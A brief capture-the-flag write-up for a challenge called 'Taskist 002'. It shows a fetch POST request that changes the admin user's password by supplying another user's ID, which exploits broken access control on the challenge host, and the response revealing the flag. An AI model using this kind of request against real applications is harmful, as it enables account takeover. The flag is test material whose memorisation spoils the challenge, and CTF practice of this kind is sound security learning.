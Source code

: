 # Taskist 002 
BRIEFING
Great, you were able to leak sensitive information of the admin account! But can you log in as the admin account now? Play around with other features available on the platform!

## Solution 

I crafted a request to update the admin user's password (user ID 64), which successfully returned the flag.
```JavaScript
fetch("http://taskist.pwn.site:1337/api/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://taskist.pwn.site:1337/settings",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"user_id\":64,\"password\":\"aaaaaaaa\"}",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```

The response received was:
```
{
    "message": "Congrats! This would update the admin password because of broken access control! Due to shared infra among players, here is the current admin password instead: br0k3n_p4ss_c0ntr0l_l0gin"
}
```
